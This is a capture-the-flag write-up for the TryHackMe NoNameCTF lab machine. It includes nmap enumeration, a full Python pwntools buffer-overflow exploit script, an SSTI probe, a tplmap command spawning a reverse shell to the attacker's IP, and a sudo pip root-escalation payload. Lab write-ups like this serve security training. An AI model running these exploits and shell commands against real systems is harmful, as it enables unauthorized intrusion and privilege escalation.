 # THM NoNameCTF Writeup
## Enumeration
```
nmap -sCV -oN nmap/NoNameCTF <ip>
```
### Result
```
Nmap scan report for 10.10.107.235
Host is up (0.36s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:57:3f:cc:86:39:04:3b:f0:e6:46:bf:72:51:64:0b (RSA)
|   256 81:05:75:ad:78:83:62:b2:06:41:5b:e5:a5:a9:82:4d (ECDSA)
|_  256 0f:8d:0e:19:e9:c7:cc:14:39:e9:34:60:5c:f7:aa:fe (ED25519)
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
146/tcp   filtered iso-tp0
2222/tcp  open     EtherNetIP-1?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, NULL, RPCCheck, SSLSessionReq: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|   GetRequest, HTTPOptions, Help, RTSPRequest: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|     Wrong option
|_    Good bye
6666/tcp  filtered irc
8652/tcp  filtered unknown
9090/tcp  open     http          Tornado httpd 6.0.3
|_http-title: Site doesn't have a title (text/plain).
|_http-server-header: TornadoServer/6.0.3
49175/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.92%I=7%D=11/8%Time=618932E7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,7B,"Welcome\x20to\x20the\x20NoNameCTF!\r\nChoose\x20an\x20action:\r\
<SNIP>
\n>\x20login:\x202\r\n>\x20get_secret_directory:\x203\r\n>\x20store
SF:_your_buffer:\x204\r\n");

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We got 4 open ports, 22,80,2222,9090. Let's take a look at it one by one. First, nothing special about port 22. Next, port 80 is running website, must be there for a reason. Third, Port 2222 looks like running a unknown service, leave it first. Last, port 9090 running website using Tornado with version 6.0.3.

### Port 80
Looking at port 80 website's source code, we found a potential hint. Looks like hinting about buffer overflow. 

![3f64f75b1b6315cc94044f566a13328e.png](_resources/3f64f75b1b6315cc94044f566a13328e.png)

### Port 2222
Looking at port 2222, we can try connect to it via netcat:
```
nc <ip> 2222
```
Looks like it is providing some services. The **get_secret_directory** looks interesting but it was prompting us to login before using that service. We will come back to this later.

![c54ca29dcc6d143e6046d2661b512fe7.png](_resources/c54ca29dcc6d143e6046d2661b512fe7.png)

### Port 9090
Upon browsing to port 9090 website, we've encountered an error.

![6667948cfd36e9a2914a933b392fe3b9.png](_resources/6667948cfd36e9a2914a933b392fe3b9.png)

For now we have gathered some initial information about each open ports. Let's do a quick summarize, port 80 source code indicating we might need to do buffer overflow, since buffer overflow less likely will be happen in websites, let's now focus on port 2222.

### Exploiting port 2222
Based on the port 80 source code hint given, we can guess that vulnerable point was **store_your_buffer** functionality and the amount of buffer to overflow it most likely will be greater than 1000. After interacting a while with it, the flow to exploit it to get secret directory probably is:
```
Register an account -> Login -> Buffer Overflow on store_your_buffer -> get_secret_directory
```

I have wrote a script to automate this process:

```
#!/usr/bin/env python3

from pwn import *
import argparse
import pdb

parser = argparse.ArgumentParser(description="BOF Exploit")
parser.add_argument("host", help="The host IP address")
parser.add_argument("port", help="The host port")
args=parser.parse_args()

# Connection
target = remote(args.host, args.port)

# Registration
print("[+] Default hardcoded credential: anonymous:anonymous123")
print("[+] Registering using default hardcoded credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'1')
target.recvuntil(b'Enter an username:')
target.sendline(b'anonymous')
target.recvuntil(b'Enter a password:')
target.sendline(b'anonymous123')

# Login
print("[+] Loging using registered credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'2')
target.recvuntil(b'Username:')
target.sendline(b'anonymous')
target.recvuntil(b'Password:')
target.sendline(b'anonymous123')

# BOF
print("[+] Buffer Overflowing 'store_your_buffer' functionality")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'4')
target.recvuntil(b'Enter your buffer:')
buffer = b"A"*1500
target.sendline(buffer)

# Get secret
print("[+] Getting secret directory")
target.recvuntil(b'store_your_buffer: 4\r\n')
target.sendline(b'3')
print("[*] Success !!!\n")
print(target.recvline().decode("utf-8"))
```

Basically the script follows the flow i mentioned above and overflow the vulnerable functionality with 1500 bytes. We just need to supply the machine IP and port to execute this exploit.

```
$ python exploit.py 10.10.107.235 2222
[+] Opening connection to 10.10.107.235 on port 2222: Done
[+] Default hardcoded credential: anonymous:anonymous123
[+] Registering using default hardcoded credential
[+] Loging using registered credential
[+] Buffer Overflowing 'store_your_buffer' functionality
[+] Getting secret directory
[*] Success !!!

My secret in the port 9090 is: /xxxxx

[*] Closed connection to 10.10.107.235 port 2222
```

Yay ! Now we got the secret directory.
***
## Initial Foothold
Let's browse to port 9090 website with the secret directory:

![6ede18c18e56f998156807e30828299c.png](_resources/6ede18c18e56f998156807e30828299c.png)

Nothing interesting, how about the source code?

![32599adf76a4a76c570d55a65701de96.png](_resources/32599adf76a4a76c570d55a65701de96.png)

Yes ! We got a parameter hidden in source code. After some testing, looks like it was vulnerable to Server Side Template Injection (SSTI):
```
http://10.10.107.235:9090/xxxxx/?hackme={{7*7}}
```
![b0ddea2d264559572693e4cc6587e728.png](_resources/b0ddea2d264559572693e4cc6587e728.png)

Without further ado, let's spawn a reverse shell using **tplmap**:
#### Notes: If you have problem installing tplmap, take this: [solution](https://blog.csdn.net/weixin_46041615/article/details/121111050), you're welcome
```
python2 tplmap.py -u http://10.10.107.235:9090/xxxxx/?hackme= --reverse-shell 10.13.28.126 4567
```

Setup netcat to listen on certain port:
```
nc -lvnp 4567
```

Execute the tplmap's command and BOOM ! Reverse shell achieved !
![ac8ecc09a421a28a018da587f359cb13.png](_resources/ac8ecc09a421a28a018da587f359cb13.png)
***
## Privilege Escalation
> Classic <3 - GTFOBins
```
sudo -l
```
![abacfee0f5d6a41063588edd829a7efb.png](_resources/abacfee0f5d6a41063588edd829a7efb.png)

### Exploit 
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo /usr/bin/pip install $TF
```

### Rooted !
![1ca5eba662366c1f2fcc22fbe8148980.png](_resources/1ca5eba662366c1f2fcc22fbe8148980.png)


To whoever reading this till here, thank you so much and have a nice day !
